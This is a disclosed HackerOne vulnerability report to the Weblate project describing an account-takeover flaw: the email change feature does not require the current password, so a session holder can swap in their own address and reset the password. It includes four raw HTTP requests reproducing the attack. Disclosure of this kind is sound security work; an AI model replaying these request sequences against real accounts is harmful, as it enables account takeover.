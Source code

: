 # Weak e-mail change functionality could lead to account takeover

## Report Details
- **Report ID**: 223461
- **URL**: https://hackerone.com/reports/223461
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-04-24T14:17:27.626Z
- **Disclosed**: 2017-05-17T16:56:58.530Z

## Reporter
- **Username**: twicedi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: weblate

## Vulnerability Information
Hi,

**Summary**
I have found a design issue on the e-mail change functionality offered by the "/accounts/profile" handler.
In particular, the e-mail change functionality does not require the current user password to be completed.
Since the e-mail could be used to reset the password of the account, an attacker, with temporary access to the victim's account (e.g. physical access to a device with an active session or by stealing the session etc.) could associate a new e-mail to the account, change the primary e-mail associated with the new one and then use the "forgot password" functionality to reset it, bypassing the current "password change" functionality ("/accounts/password" handler) that correctly requires the current password to be completed.

**Step to reproduce**
To reproduce the issue it is possible to add a new e-mail:

Request (note that the current password is not required):
```
POST /accounts/email/ HTTP/1.1
Host: hosted.weblate.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Referer: https://hosted.weblate.org/
Cookie: csrftoken=kA26tUUVL9ygh9BIlSuuWBGUQlYvoO0kYd3M97qEi4CnXove7tbDTXk6NTLoSOIl; _pk_id.14.7ba2=0d80180050f49544.1493038019.1.1493041708.1493038019.; _pk_ses.14.7ba2=*; django_language=it; sessionid=4yntub067zylgtuulbkci9e031tshiaj
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

csrfmiddlewaretoken=SLhsGgqa4B8Y0DOFLPNQEbu9MyV64vCewoi8mtWTBwc5GSIbxquZBx8lJ6IZyvkf&email=user1%2Bhackerone%40████████&content=
```
Validate the new e-mail with the link sent by the web app (that is controlled by the "attacker"):

Request (note that the current password is not required):
```
GET /accounts/complete/email/?verification_code=51554eb9e31b44d6a48f8b41acda9a43&id=uy7kg0n6l8nhmihjvcgwzg3dpama80gn&type=reset HTTP/1.1
Host: hosted.weblate.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: csrftoken=kA26tUUVL9ygh9BIlSuuWBGUQlYvoO0kYd3M97qEi4CnXove7tbDTXk6NTLoSOIl; _pk_id.14.7ba2=0d80180050f49544.1493038019.1.1493041853.1493038019.; _pk_ses.14.7ba2=*; django_language=it; sessionid=uy7kg0n6l8nhmihjvcgwzg3dpama80gn
Connection: close
Upgrade-Insecure-Requests: 1
```

Change the primary e-mail with the new one (current password not required):
```
POST /accounts/profile/ HTTP/1.1
Host: hosted.weblate.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Referer: https://hosted.weblate.org/
Cookie: csrftoken=kA26tUUVL9ygh9BIlSuuWBGUQlYvoO0kYd3M97qEi4CnXove7tbDTXk6NTLoSOIl; _pk_id.14.7ba2=0d80180050f49544.1493038019.1.1493041762.1493038019.; _pk_ses.14.7ba2=*; django_language=it; sessionid=4yntub067zylgtuulbkci9e031tshiaj
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 464

csrfmiddlewaretoken=HsdKr0zHG89lB0X3at4kJLVn3u0dP8L7l5eq7d5qd3dshfRzW4LtG7zz02N6j8t8&activetab=%23account&language=it&secondary_in_zen=on&editor_link=&special_chars=&dashboard_view=1&dashboard_component_list=&csrfmiddlewaretoken=HsdKr0zHG89lB0X3at4kJLVn3u0dP8L7l5eq7d5qd3dshfRzW4LtG7zz02N6j8t8&csrfmiddlewaretoken=HsdKr0zHG89lB0X3at4kJLVn3u0dP8L7l5eq7d5qd3dshfRzW4LtG7zz02N6j8t8&username=user2hackerone&first_name=User2+HackerOne&email=user1%2Bhackerone%40█████████
```

An finally request the reset of the password with the new e-mail (controlled by the "attacker"):
```
POST /accounts/reset/ HTTP/1.1
Host: hosted.weblate.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Referer: https://hosted.weblate.org/
Cookie: csrftoken=kA26tUUVL9ygh9BIlSuuWBGUQlYvoO0kYd3M97qEi4CnXove7tbDTXk6NTLoSOIl; _pk_id.14.7ba2=0d80180050f49544.1493038019.1.1493041843.1493038019.; _pk_ses.14.7ba2=*; django_language=it; sessionid=k10nwu1h62lcfpvot1c8njbia65ki4ne
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

csrfmiddlewaretoken=fjHTb3nw1dwzvClDckQxIIWjmehS02X3TWIzRgTfy8AGbRf9YVxGF4AvjM4Lu2F4&email=user1%2Bhackerone%40████&content=
```

This could lead to permanent account takeover without knowing the current password of the victim (and so bypassing the current password change functionality).

I'm available for further clarification,

Best,
Davide


## Attachments
No attachments
